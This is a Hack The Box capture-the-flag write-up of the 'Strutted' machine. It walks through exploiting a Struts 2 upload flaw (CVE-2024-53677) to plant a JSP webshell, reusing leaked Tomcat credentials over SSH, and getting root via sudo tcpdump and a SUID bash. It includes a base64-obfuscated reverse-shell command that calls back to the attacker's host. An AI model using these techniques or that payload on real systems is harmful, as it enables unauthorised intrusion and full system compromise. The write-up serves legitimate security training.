# Strutted Writeup - by Thammanant Thamtaranon

**Strutted** is a medium-difficulty Linux-based machine hosted on Hack The Box.

## Reconnaissance
- I began with a full TCP port scan, including service/version detection and OS fingerprinting:
  `nmap -A -T4 -p- 10.10.11.59`
  
- The scan revealed the following open ports:
  - **22** — SSH
  - **80** — HTTP
- I added `strutted.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration
- We start off with a `dirsearch` command: `dirsearch -u http://strutted.htb/ -x 404`
  
- Navigating to `/download` allowed us to download `strutted.zip`.
- I then ran VHost enumeration to check for hidden subdomains: `ffuf -u http://strutted.htb -H "Host: FUZZ.strutted.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`. Nothing was found.
- Attempting to upload a file revealed the URL `http://strutted.htb/upload.action`.
- This endpoint suggested the usage of the **Struts 2** Framework.
  
- Searching for `struts2 framework cve`, we identified **CVE-2024-53677**, a file upload logic flaw in Apache Struts. This vulnerability allows parameter pollution to override file naming conventions. It grants an attacker the ability to traverse directories and upload executable files, leading to full system compromise via RCE.
- I unzipped `strutted.zip` to analyze the source code.
- Reading `README.md` revealed the following instructions:
  > **Access the Link:** Click the shareable link that you or someone else received. It should look something like `http://localhost:8080/s/{id}` where `{id}` is a unique identifier.

  I also noted the email address `support@strutted.com`.
- Reading `tomcat-users.xml` revealed admin credentials, though they appeared to be defaults.
  
- We located the upload validation code in `/strutted/src/main/java/org/strutted/htb/Upload.java`.
  
- The code checks the request's `Content-Type HTTP header` and `Magic Bytes` (file signatures).

## Exploitation
- To bypass this, I used Burp Suite to change the `Content-Type HTTP header` to GIF. I chose GIF because it is easy to inject the magic bytes. I added `GIF89a;` to the content body immediately before the webshell payload.
- We also need to change the parameter `name="upload"` to `name="Upload"`. This is because Apache Struts automatically generates internal variable names based on the exact capitalization of the input parameter provided. When sending a file with the parameter name `Upload`, the framework creates a corresponding filename variable named `UploadFileName`. Since our exploit payload specifically targets `top.UploadFileName` to overwrite the path, the original file parameter must match that capitalization ("Upload") to ensure they link to the same object. If sent as "upload," Struts treats them as unrelated variables, ignoring the path traversal and saving the file safely.
- This was the final request I constructed:
  
- I sent the request and successfully uploaded the webshell.
  
- We then ran the following command to trigger the reverse shell:
  `curl "http://strutted.htb/shell.jsp" --data-urlencode "cmd=bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjExLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"`
  
- In `/conf/tomcat-users.xml`, we found the admin credentials.
  
- I read `/etc/passwd` to identify users who might have reused this password.
  
- I successfully SSH'd into the box as user **james**.
  
- We captured the user flag.

## Privilege Escalation
- Running `sudo -l` revealed that user **james** can run `/usr/sbin/tcpdump` as root without a password.
  
- Searching for `tcpdump` on **GTFOBins** showed a method for privilege escalation.
  
- I decided to use the command to execute a script that runs `chmod +s /bin/bash`. This sets the SUID bit on `/bin/bash`, allowing us to run `/bin/bash -p` to spawn a shell with root privileges.
  
- We captured the root flag.
